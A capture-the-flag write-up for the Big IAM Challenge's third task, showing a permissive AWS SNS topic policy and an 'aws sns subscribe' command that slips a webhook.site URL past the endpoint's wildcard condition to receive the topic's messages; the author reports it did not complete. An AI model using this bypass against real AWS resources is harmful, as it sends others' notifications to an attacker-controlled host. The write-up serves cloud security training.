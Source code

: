 # Challenge 3

## We got a message for you. Can you get it?
- https://bigiamchallenge.com/challenge/3

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
## Solution

- At the time of solving & writing the solution I found this challenge is kind of broken as our endpoint could not recieve the SNS confirmation message in our webhook

```bash
 aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint https://webhook.site/e81ba3c4-f37e-4bb6-9041-bf194f97550b/@tbic.wiz.io
```
```json
{
    "SubscriptionArn": "pending confirmation"
}
```
## Note

I could not solve the full challenge as I believe the part of the challenge is broken. I read some oneline writeup and verified my process is correct but the request is not triggered. To move on to the next part of the challenge I used a flag to skip this challenge and move to the next.
